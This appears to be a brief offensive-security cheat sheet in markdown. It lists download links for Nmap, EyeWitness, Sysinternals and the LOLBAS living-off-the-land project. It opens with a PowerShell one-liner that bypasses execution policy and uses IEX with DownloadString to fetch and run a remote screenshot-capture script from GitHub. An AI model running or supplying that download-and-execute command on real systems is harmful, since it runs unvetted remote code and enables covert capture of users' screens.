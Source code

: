 ## Import Get-TimedScreenshot
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/obscuresec/PowerShell/master/Get-TimedScreenshot')"


# Useful Links
## Nmap
https://nmap.org/dist/nmap-7.70-win32.zip

## EyeWitness Binary
https://www.christophertruncer.com/InstallMe/EyeWitness.zip

## Sys InternalTools
https://live.sysinternals.com/
https://download.sysinternals.com/files/SysinternalsSuite.zip

## List of Binaries that can be used for living off the land techniques
https://github.com/api0cradle/LOLBAS

